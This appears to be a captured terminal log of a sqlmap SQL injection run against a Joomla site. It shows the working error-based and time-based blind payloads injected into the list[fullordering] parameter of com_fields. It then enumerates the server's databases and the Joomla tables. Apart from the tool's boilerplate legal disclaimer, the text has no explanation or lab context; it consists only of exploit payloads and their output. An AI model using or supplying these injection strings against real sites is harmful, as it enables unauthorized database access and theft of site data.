 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:24:47 /2025-04-25/

[14:24:48] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; pt-BR; rv:1.8.0.4) Gecko/20060608 Ubuntu/dapper-security Firefox/1.5.0.4' from file '/usr/share/sqlmap/data/txt/user-agents.txt'                                                                            
[14:24:48] [INFO] resuming back-end DBMS 'mysql' 
[14:24:48] [INFO] testing connection to the target URL
[14:24:48] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=71sci5vi860...pq698ah107'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9872 FROM(SELECT COUNT(*),CONCAT(0x716b787071,(SELECT (ELT(9872=9872,1))),0x7176626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7632 FROM (SELECT(SLEEP(5)))XhkY)
---
[14:24:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:24:50] [INFO] fetching database names
[14:24:50] [INFO] resumed: 'information_schema'
[14:24:50] [INFO] resumed: 'joomla'
[14:24:50] [INFO] resumed: 'mysql'
[14:24:50] [INFO] resumed: 'performance_schema'
[14:24:50] [INFO] resumed: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[14:24:50] [INFO] fetching tables for database: 'joomla'
[14:24:51] [INFO] retrieved: '#__assets'
[14:24:51] [INFO] retrieved: '#__associations'
[14:24:51] [INFO] retrieved: '#__banner_clients'
[14:24:52] [INFO] retrieved: '#__banner_tracks'
[14:24:52] [INFO] retrieved: '#__banners'
[14:24:52] [INFO] retrieved: '#__categories'
[14:24:52] [INFO] retrieved: '#__contact_details'
[14:24:52] [INFO] retrieved: '#__content'
[14:24:53] [INFO] retrieved: '#__content_frontpage'
[14:24:53] [INFO] retrieved: '#__content_rating'
[14:24:53] [INFO] retrieved: '#__content_types'
[14:24:53] [INFO] retrieved: '#__contentitem_tag_map'
[14:24:53] [INFO] retrieved: '#__core_log_searches'
[14:24:54] [INFO] retrieved: '#__extensions'
[14:24:54] [INFO] retrieved: '#__fields'
[14:24:54] [INFO] retrieved: '#__fields_categories'
[14:24:54] [INFO] retrieved: '#__fields_groups'
[14:24:54] [INFO] retrieved: '#__fields_values'